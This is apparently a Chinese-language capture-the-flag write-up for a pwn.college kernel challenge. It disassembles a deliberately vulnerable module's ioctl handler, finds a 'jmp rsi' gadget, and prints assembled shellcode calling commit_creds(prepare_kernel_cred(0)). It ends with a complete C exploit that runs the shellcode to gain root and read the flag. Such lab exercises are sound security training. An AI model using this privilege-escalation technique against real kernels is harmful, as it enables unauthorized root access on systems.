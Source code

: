 之前写完前面四个的时候凌晨 4 点了，剩下最后一题没写

babykernel 补完

## babykernel_level5_teaching1.ko

![image-20210224204729323](https://gitee.com/scriptkiddies/images/raw/master/image-20210224204729323.png)

老样子，通过 `ioctl` 去控制

### device_ioctl

```asm
__int64 __fastcall device_ioctl(file *file, unsigned int cmd, unsigned __int64 arg)
{
  _QWORD *v3; // rbx
  __int64 result; // rax
  __int64 v5; // rax

  v3 = (_QWORD *)arg; // v3 指向我们 ioctl 的第 3 个参数
  printk(&unk_1018); // 输出 banner
  result = -1LL;
  if ( cmd == 1337 ) // 操作码是 1337 ，也就是 ioctl 的第二个参数
  {
    result = -2LL;
    if ( *v3 <= 0x1000uLL ) // 可以看到 v3 是一个 _QWORD 的类型，也就是 64 bit 的长整形
    {
      copy_from_user(shellcode, v3 + 1); // 复制 arg 第 64bit 之后的内容到 shellcode
      v5 = v3[513]; // v5 就是 rax，rax 存入 v3[513] 处的 64bits 数据
      _x86_indirect_thunk_rax(); // call rax，也就是说 v3[513] 需要放一个有效的地址，这个地址就是后面要执行的
      result = 0LL;
    }
  }
  return result;
}
```

可以看汇编

```asm
.text.unlikely:0000000000000F6C ; __int64 __fastcall device_ioctl(file *file, unsigned int cmd, unsigned __int64 arg)
.text.unlikely:0000000000000F6C device_ioctl    proc near               ; DATA XREF: .data:fops↓o
.text.unlikely:0000000000000F6C file = rdi                              ; file *
.text.unlikely:0000000000000F6C cmd = rsi                               ; unsigned int
.text.unlikely:0000000000000F6C arg = rdx                               ; unsigned __int64
.text.unlikely:0000000000000F6C                 push    rbp
.text.unlikely:0000000000000F6D                 mov     rcx, arg
.text.unlikely:0000000000000F70                 mov     ebp, esi
.text.unlikely:0000000000000F72 cmd = rbp                               ; unsigned int
.text.unlikely:0000000000000F72                 push    rbx
.text.unlikely:0000000000000F73                 mov     rbx, arg
.text.unlikely:0000000000000F76 arg = rbx                               ; unsigned __int64
.text.unlikely:0000000000000F76                 mov     edx, esi
.text.unlikely:0000000000000F78                 mov     rsi, file
.text.unlikely:0000000000000F7B                 mov     file, offset unk_1018
.text.unlikely:0000000000000F82                 call    printk          ; PIC mode
.text.unlikely:0000000000000F87                 or      rax, 0FFFFFFFFFFFFFFFFh
.text.unlikely:0000000000000F8B                 cmp     ebp, 539h
.text.unlikely:0000000000000F91                 jnz     short loc_FC4
.text.unlikely:0000000000000F93                 mov     rdx, [arg]
.text.unlikely:0000000000000F96                 mov     rax, 0FFFFFFFFFFFFFFFEh
.text.unlikely:0000000000000F9D                 cmp     rdx, 1000h
.text.unlikely:0000000000000FA4                 ja      short loc_FC4
.text.unlikely:0000000000000FA6                 mov     rdi, cs:shellcode
.text.unlikely:0000000000000FAD                 lea     rsi, [arg+8]
.text.unlikely:0000000000000FB1                 call    _copy_from_user ; PIC mode
.text.unlikely:0000000000000FB6                 mov     rax, [arg+1008h] # 可以看到 rax 存的是 arg+1008h 位置的内容
.text.unlikely:0000000000000FBD                 call    __x86_indirect_thunk_rax ; PIC mode
.text.unlikely:0000000000000FC2                 xor     eax, eax
.text.unlikely:0000000000000FC4
.text.unlikely:0000000000000FC4 loc_FC4:                                ; CODE XREF: device_ioctl+25↑j
.text.unlikely:0000000000000FC4                                         ; device_ioctl+38↑j
.text.unlikely:0000000000000FC4                 pop     arg
.text.unlikely:0000000000000FC5                 pop     cmd
.text.unlikely:0000000000000FC6
.text.unlikely:0000000000000FC6 locret_FC6:                             ; DATA XREF: .orc_unwind_ip:0000000000001305↓o
.text.unlikely:0000000000000FC6                                         ; .orc_unwind_ip:0000000000001309↓o ...
.text.unlikely:0000000000000FC6                 retn
.text.unlikely:0000000000000FC6 device_ioctl    endp
```

思路：

```asm
.text.unlikely:0000000000000FB6                 mov     rax, [arg+1008h] # 可以看到 rax 存的是 arg+1008h 位置的内容
.text.unlikely:0000000000000FBD                 call    __x86_indirect_thunk_rax ; PIC mode
.text.unlikely:0000000000000FC2                 xor     eax, eax
```

因为是把 `arg+1008h` 当成一个指针，指向 `call rax` 要跳到的指令的地址

我想到的是 `rop`

用一个 `jmp rsi` 执行做跳板调到 `shellcode`

就是在 `arg+1008h`  放入 `jmp rsi` 的地址，这样我们只需要在我们 `ioctl` 的 第三个参数的第  `8` 个字节之后构造 `shellcode` 就能 通过 `jmp rsi` 跳到 `shellcode` 执行

因为可以看到 

```asm
.text.unlikely:0000000000000FAD                 lea     rsi, [arg+8]
```

`rsi` 是存着 `arg+8` 的地址，所以理论成立，开始实践，现在找 `gadget`

```zsh
# r00t @ FakeLinux in ~/code/kernel/pwnkernel/linux-5.4 on git:main x [21:16:52]
$ /home/r00t/.local/bin/ROPgadget --binary ./vmlinux | grep "jmp rsi"
```

得到一堆结果，然后我找到了这个：

```asm
0xffffffff810213b4 : jmp rsi
```

好了，写 `payload`，还是使用 `commit_creds(prepare_kernel_cred(0));` 进行提权

sc.asm

```asm
push rsi;
mov rsi, 0xffffffff810881c0; # prepare_kernel_cred
push rdi;
xor rdi, rdi;
call rsi;
mov rdi, rax;
mov rsi, 0xffffffff81087e80; # commit_creds
call rsi;
pop rdi;
pop rsi;
ret;
```

`rasm2` 编译

```zsh
# r00t @ FakeLinux in ~ [21:19:46]
$ rasm2 -a x86 -b 64 -C -f sc.asm
"\x56\x48\xbe\xc0\x81\x08\x81\xff\xff\xff\xff\x57\x48\x31\xff\xff\xd6\x48\x89\xc7" \
"\x48\xbe\x80\x7e\x08\x81\xff\xff\xff\xff\xff\xd6\x5f\x5e\xc3"
```

得到 `shellcode`，长度 `35`，我们还需要填充 `0x1008 - 35 - 8` 字节，然后放入 `jmp rsi` 的地址，为什么 `-35` 又 `-8` ？

因为前 `8` 个字节是 `v3`，`v3` 是个 `64` 位的长整形，需要小于 `0x1000` ，我们直接用 `0` 填充

构造 payload

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/mman.h>

int main() {
  char *scTmp = "\x56\x48\xbe\xc0\x81\x08\x81\xff\xff\xff\xff\x57\x48\x31\xff\xff\xd6\x48\x89\xc7\x48\xbe\x80\x7e\x08\x81\xff\xff\xff\xff\xff\xd6\x5f\x5e\xc3";
  char *shellcode;
  shellcode = mmap(NULL, 4500, PROT_EXEC | PROT_READ | PROT_WRITE, MAP_SHARED| MAP_ANON, -1, 0);
  if(shellcode == NULL) {
    printf("mmap fail!\n");
    exit(-1);
  }
  memset(shellcode, 0, 8); // 用 0 填充前 8 个字节
  memcpy(shellcode + 8, scTmp, 35); // commit_creds(prepare_kernel_cred(0)); 
  memset(shellcode + 8 + 35, 0x90, 4061); // 0x90 填充
  memcpy(shellcode + 4104,  "\xb4\x13\x02\x81\xff\xff\xff\xff", 8); // jmp rsi
  int fd = open("/proc/pwncollege", O_WRONLY);
  printf("%d\n", fd);
  ioctl(fd, 1337, shellcode);
  system("id");
  system("cat /flag");
  return 0;
}
```

pwn！

![image-20210225010000177](https://gitee.com/scriptkiddies/images/raw/master/image-20210225010000177.png)

其实这个题目有个坑

就是如果你的 `shellcode` 放的那块内存是不可执行的话就会失败，之前我的 `payload` 是放在一个字符数组里面，数组是放在栈上的

```c
char shellcode[] = {"\x56\x48\xbe\xc0\x81\x08\x81\xff\xff\xff\xff\x57\x48\x31\xff\xff\xd6\x48\x89\xc7\x48\xbe\x80\x7e\x08\x81\xff\xff\xff\xff\xff\xd6\x5f\x5e\xc3"};
```

但是我编译的时候没有开启 栈可执行 当跳到 shellcode 执行时就会发生错误，会提示内存页不可执行，所以我才用 mmap 分配一块 可读可写可执行的 内存

结束！

```zsh
# r00t @ FakeLinux in ~ [1:12:20]
$ date
Thu 25 Feb 2021 01:12:21 AM CST
```
